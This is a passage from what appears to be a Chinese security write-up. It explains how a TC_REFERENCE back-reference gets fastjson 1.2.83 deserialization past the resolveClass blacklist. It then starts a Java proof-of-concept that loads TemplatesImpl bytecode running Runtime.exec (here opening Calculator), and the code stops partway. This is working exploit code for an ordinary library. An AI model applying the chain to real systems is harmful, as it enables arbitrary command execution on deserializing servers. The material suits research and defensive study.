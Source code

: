 writeHandle会将这个重复对象以TC_REFERENCE标记写入

![image-20250128220938853](images/14.png)

所以现在HashMap中的KV的标记就是TC_REFERENCE了，以至于在反序列化中的标记是TC_REFERENCE导致在switch代码中进入TC_REFERENCE的分支，绕过了resolveClass的执行

反序列化时会触发JSONArray/JSONObject的readObject方法，将这个过程委托给`SecureObjectInputStream`，但在恢复JSONArray/JSONObject中的TemplatesImpl对象时，由于此时的第二个TemplatesImpl对象是引用类型，通过readHandle恢复对象的途中不会触发resolveClass，由此实现了绕过

主要的是要对TemplatesImpl对象恢复时绕过resolveClass对黑名单的检查

## 利用链复现

这里把依赖换成了1.2.83

```
package org.example;

import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Main {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("test");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "DawnT0wn");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);
```